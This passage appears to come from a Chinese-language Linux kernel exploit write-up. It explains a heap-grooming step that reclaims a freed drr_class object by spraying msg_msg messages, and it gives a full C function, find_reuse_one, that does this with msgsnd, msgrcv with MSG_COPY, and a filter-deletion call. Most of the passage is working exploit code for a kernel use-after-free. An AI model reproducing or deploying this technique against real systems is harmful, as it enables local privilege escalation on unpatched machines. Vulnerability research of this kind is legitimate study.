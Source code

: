 
因为前期的defragmentation会导致kmem_cache_cpu中还存在一定数量的free object，先将已经识别出来的这个object通过msgrcv给释放掉（挂在per cpu partial），喷1个page 的msg_msg object，减1再次识别出这个重占位的msg_msg是32个中第`X`个分配的（从0开始），再次msgrcv该对象，最后分配`X+1`个msg_msg，下一次分配的时候即可重新占位到被绑定多次的drr_class对象：

![](https://image.baidu.com/search/down?url=https://wx2.sinaimg.cn/large/ee2fecafly1hme1hghveuj20g80bvta0.jpg)

```c
static void find_reuse_one(void)
{
    int i;
    int ret;
    struct msgbuf {
        long mtype;
        char mtext[0x40];
    } msg;

    memset(&msg, 0, sizeof(msg));
    ret = msgrcv(g_qid[found_cross_qid], &msg, 0x3f, 1, IPC_NOWAIT);
    if (ret < 0)
        errExit("[-] msgrcv to free the cross cache one");

    msg.mtype = 1;
    memset(msg.mtext, 'G', sizeof(msg.mtext));
    for (i = 0; i < REUSE_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgsnd(g_reuse_qid[i], &msg, sizeof(msg.mtext), 0);
        if (ret < 0)
            errExit("[-] msgsnd to alloc msg_msg");
    }

    send_del_filter(0x43);

    memset(&msg, 0, sizeof(msg));
    for (i = 0; i < REUSE_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgrcv(g_reuse_qid[i], &msg, 0x3f, 0, IPC_NOWAIT | MSG_COPY);
        if (ret > 0) {
            found_reuse_qid = i;
            break;
        }
    }

    if (found_reuse_qid < 0) {
        printf("[-] Cannot find the reuse one :(\n");
        exit(-1);
    }

    printf("[+] Find the reuse one is at %d msgq\n", found_reuse_qid);

    memset(&msg, 0, sizeof(msg));
    ret = msgrcv(g_reuse_qid[found_reuse_qid], &msg, 0x3f, 1, IPC_NOWAIT);
    if (ret < 0)
        errExit("[-] msgrcv to free the reuse one");

    msg.mtype = 2;
    memset(msg.mtext, 'H', sizeof(msg.mtext));
    for (i = 0; i < found_reuse_qid + 1; i++) {
        ret = msgsnd(g_reuse_qid[i], &msg, sizeof(msg.mtext), 0);
        if (ret < 0)
            errExit("[-] msgsnd to alloc msg_msg");
    }
}
```
